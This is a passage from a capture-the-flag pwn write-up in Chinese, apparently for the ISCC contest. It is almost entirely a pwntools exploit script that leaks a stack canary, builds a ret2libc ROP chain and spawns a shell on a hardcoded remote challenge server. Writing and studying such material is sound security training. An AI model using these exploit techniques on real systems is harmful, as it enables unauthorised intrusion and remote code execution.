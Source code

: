 ```python
debug()
p.sendafter(b'password?\n\n', payload)
p.interactive()


```
## attachment-8-校内
用到了一点点堆的知识，free后在fastbin中，申请同样大小的堆块即可再次编辑存放flag的位置，即可满足检测条件，之后是简单的ret2libc
```python
from pwn import *
from wstube import websocket
import sys

context(arch='amd64', os='linux', log_level='debug')
local = True if len(sys.argv) == 1 else False
elf_path = './' + sys.argv[0][:-3]
libc_path = './libc-2.31.so'
if local:
    p = process(elf_path)
else:
    ip, port = '101.200.155.151:12200'.split(':')
    p = remote(ip, port)
    # p = websocket("")

def debug():
    if local:
        gdb.attach(p, '''
            b* main
        ''')

elf = ELF(elf_path)
libc = ELF(libc_path)
main = 0x40135c
pop_rdi = 0x4014c3
ret = 0x40101a
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

p.sendlineafter(b'size:', b'96')
p.sendlineafter(b'flag:', b'flag')
p.sendlineafter(b'ISCC', b'a' * 0x18)
p.recvuntil(b'a\n')
canary = u64(p.recv(7).rjust(8, b'\x00'))
log.info('canary: ' + hex(canary))

payload = b'a' * (0x18) + p64(canary) + b'a' * 0x8 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
debug()
p.sendlineafter(b'meet you', payload)
p.recvuntil(b'meet you too!\n')
puts_addr = u64(p.recv(6).ljust(8, b'\x00'))
log.info('puts_addr: ' + hex(puts_addr))
libc_base = puts_addr - libc.symbols['puts']
system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b'/bin/sh'))
p.sendlineafter(b'ISCC', b'a' * 0x18)

payload = b'a' * (0x18) + p64(canary) + b'a' * 0x8 + p64(ret) + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
p.recvuntil(b'meet you')
p.sendline(payload)

```